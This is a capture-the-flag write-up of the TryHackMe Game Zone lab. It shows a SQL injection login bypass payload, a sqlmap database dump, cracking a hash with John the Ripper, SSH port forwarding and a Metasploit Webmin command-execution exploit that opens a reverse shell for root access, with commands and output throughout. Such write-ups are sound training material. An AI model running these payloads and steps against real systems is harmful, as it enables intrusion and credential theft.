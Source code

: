 ```yaml
---
title: "TryHackMe's Game Zone Room"
published: true
---
```


# TryHackMe's Game Zone Room

## Introduction

The Game Zone room on TryHackMe presents a learning experience for aspiring ethical hackers, simulating a real-world scenario of web application exploitation. In this post, we’ll guide you through the key stages of the attack, from initial access to escalating privileges, showcasing practical techniques using tools like SQL injection, password cracking, and service exploitation.

Whether you're sharpening your pentesting skills or just getting started, this guide will help you understand the critical steps in compromising a vulnerable system, using the Game Zone room as a training ground. Let's dive in!

## Initial access

The room provides a web application at http://10.10.218.195/, we will login leveraging a sql injection vulnerability.
When an user tries to login the database receive a query similar to this:  
**SELECT \* FROM users WHERE username = :username AND password := password**  
We will use `' or 1=1 -- -` as the username and a empty password, so the query will look like this:  
**SELECT \* FROM users WHERE username = '' or 1=1 -- - AND password =**  
effectively becoming **SELECT \* FROM users WHERE username = '' or 1=1**  
The `'` closes username string and `-- -` are used to comment out what comes after it.  
The `1=1` forces the where clause to evaluate to true, this way we will login with the first user returned by the query.  
This allows us to login even if we don't know any valid username and if the classic 'admin' username is not present.

Next we will use **sqlmap** to dump the database.  
After logging in we reach a page with a search feature, type anything in the search box and capture the request with Burp.

![](../assets/images/tryhackme/offensive_pentesting/gamezone/webpage.png)

![](../assets/images/tryhackme/offensive_pentesting/gamezone/capture.png)

Then we save the request to a file.

![](../assets/images/tryhackme/offensive_pentesting/gamezone/capture2.png)

The following command uses our authenticated session, thanks to the request file, to detect vulnerabilities in order to dump the database.

```bash
root@ip-10-10-112-239:~/Downloads# sqlmap -r request.txt --dbms=mysql --dump
```

## Password cracking

In the database we obtained in the previous step there is a single user, we will use **John the Ripper** to crack the password hash of that user.  
Save the hash to a file (or use the file auto-generated by sqlmap) and run the following command.

```bash
john /tmp/sqlmapqflBjq6922/sqlmaphashes-7mItrA.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

Once you get the password, use it to ssh to the target machine:

```bash
root@ip-10-10-112-239:~/Downloads# ssh agent47@10.10.218.195
The authenticity of host '10.10.218.195 (10.10.218.195)' can't be established.
ECDSA key fingerprint is SHA256:mpNHvzp9GPoOcwmWV/TMXiGwcqLIsVXDp5DvW26MFi8.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.218.195' (ECDSA) to the list of known hosts.
agent47@10.10.218.195's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Fri Aug 16 17:52:04 2019 from 192.168.1.147
agent47@gamezone:~$ whoami
agent47
```

Proceed to find the user flag

```bash
agent47@gamezone:~$ ls
user.txt
agent47@gamezone:~$ cat user.txt
[REDACTED]
```

## Exposing services

Looking for active services on the target machine we find an interesting one running on port 10000.

```bash
agent47@gamezone:~$  ss -tulpn
Netid State      Recv-Q Send-Q                                     Local Address:Port                                                    Peer Address:Port
udp   UNCONN     0      0                                                      *:68                                                                 *:*
udp   UNCONN     0      0                                                      *:10000                                                              *:*
tcp   LISTEN     0      80                                             127.0.0.1:3306                                                               *:*
tcp   LISTEN     0      128                                                    *:10000                                                              *:*
tcp   LISTEN     0      128                                                    *:22                                                                 *:*
tcp   LISTEN     0      128                                                   :::80                                                                :::*
tcp   LISTEN     0      128                                                   :::22                                                                :::*
```

Unfortunately this service is not directly accessible from our local machine, probably due to a firewall restricting access from the outside.  
Luckily we can get around the restriction with a nice trick: we use reverse ssh port forwarding.  
In particular, we will use **local port forwarding**: it allows a local computer (the client) to forward traffic to a remote server (through an SSH connection), making it seem as if the remote service is running on the local machine.

```bash
root@ip-10-10-112-239:~/Downloads# ssh -L 10000:localhost:10000 agent47@10.10.218.195
agent47@10.10.218.195's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Sun Oct 13 05:06:08 2024 from 10.10.112.239
```

Let's break down the previous command:  
`-L` stands for local port forwarding  
`10000:localhost:10000` means that all traffic sent to the port 10000 of the localhost will be forwarded to the port 10000 of the remote machine, via the ssh tunnel

Now we can access the remote service on localhost, as if it was running locally.

![](../assets/images/tryhackme/offensive_pentesting/gamezone/exposed.png)

The service is a CMS, we can use the credentials found previously to log in.  
Once we are logged in we can easily find the CMS version.

If we did not have valid credentials we could have used nmap to find the CMS version.

```bash
root@ip-10-10-112-239:~/Downloads# nmap -sV -p 10000 localhost

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-13 11:40 BST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000052s latency).
Other addresses for localhost (not scanned): ::1

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.580 (Webmin httpd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.14 seconds
```

## Privilege escalation

Using the CMS version we can find a metasploit exploit that will elevate our privileges to root.

```bash
msf6 > search webmin 1.580

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   1  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
```

Let's configure it:

```bash
msf6 > use 0
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD [REDACTED]
PASSWORD => [REDACTED]
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47
USERNAME => agent47
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST 10.10.112.239
LHOST => 10.10.112.239
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
```

As you can notice in this case the remote host is configured to be 127.0.0.1, because we access the service via our local ssh tunnel.  
Let's run the exploit.

```bash
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit

[*] Started reverse TCP double handler on 10.10.112.239:4444
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[+] Payload executed successfully
[*] Command: echo L5KJMMxnzUHRKmdf;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "L5KJMMxnzUHRKmdf\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.10.112.239:4444 -> 10.10.218.195:59412) at 2024-10-13 12:12:40 +0100

whoami
root
```

We now have root access and can retrieve the root flag.

```bash
cd /root
ls
root.txt
cat root.txt
[REDACTED]
```

That's it for this room, see you in the next one.  
Happy hacking!
